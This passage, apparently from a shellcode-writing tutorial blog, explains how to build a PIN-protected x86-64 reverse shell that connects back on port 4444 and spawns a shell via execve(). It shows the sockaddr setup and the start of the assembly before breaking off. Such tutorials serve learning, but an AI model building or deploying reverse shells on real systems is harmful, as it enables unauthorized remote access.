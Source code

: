 By the [Linux Programmer's Manual](http://man7.org/linux/man-pages/man2/connect.2.html), `connect()` syscall takes 3 arguments: a <b>file descriptor</b> which refers to the socket we want to connect to, <b>addr</b> struct which specifies the address information (IP and port) and <b>addrlen</b>, the length of that address structure.

The socket we are going to be connecting to is of type AF_INET, which tells us we are dealing with an IPv4 address space. For IPv4 address space we need to specify AF_INET as the address family. We also specify with INADDR_ANY that we are making a connection to 0.0.0.0 and `htons(4444)` presents the port to connect to in network byte order. Finally we add 8 zero bytes by using bzero() function as per definition.

```js
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_addr.s_addr = INADDR_ANY;
server.sin_port = htons(4444);
bzero(&server.sin_zero, 8);
```

To implement `connect()` syscall successfully, the start address of the addr structure shold be specified as the 2nd argument (RSI). The third argument in turn should hold the length of the structure which we get when we add up the bytes of each of the structure members.

```
server.sin_family = 2 bytes
server.sin_addr.s_addr = 4 bytes
server.sin_port = 2 bytes
bzero(&server.sin_zero, 8) = 8 bytes

= total of 16 bytes
```

### Assembly

Now that we have gotten familiary with the `connect()` syscall, let's try to analyze and understand the assembly code which corresponds to the C code presented in the beginning of this blog post. I have decided to do it in 3 parts. First part is about how we use assembly to initiate the call back home, second part is what comes after we have established a connection and require the user to submit the correct PIN code. Based on the PIN code we can make a desicion whether to take the `exit()` syscall or jump to the 3rd part of the assembly code where we execute the actual shell via `execve()`.

#### <b>Part 1</b> - making a call home

First thing we are going to do is create a new socket by using the `socket()` syscall. It takes 3 parameters and by convention these go to RDI, RSI and RDX registers. RDI will hold the address family AF_INET. You can find the corresponding number to AF_INET with python oneliner `python -c import socket; print socket.AF_INET'`. Same goes for the SOCK_STREAM `python -c 'import socket; print socket.SOCK_STREAM'` which means we want the socket to be a TCP socket. At label `socket:` we are using the ADD instruction to load these values (AF_INET: 2, SOCKSTREAM: 1) to registers RDI and RSI. The 3rd argument simply needs to be 0, so we can use the XOR instruction, as something XOR-ed by itself is always zero.

On successful return `socket()` returns as a non-negative number which is a file descriptor. This return value by convention is saved into RAX and this is the reason why on the last 2 lines we are moving the value from RAX to RDI and then clearing the RAX value as each following syscall would otherwise overwrite and destroy the fd.
```js
;reverseshell which connects back on port 4444 if the correct PIN code 1234 is submitted.

global _start:
section .text

_start:

socket:
	;sockfd = socket(AF_INET, SOCK_STREAM, 0);
	xor rdi, rdi
```
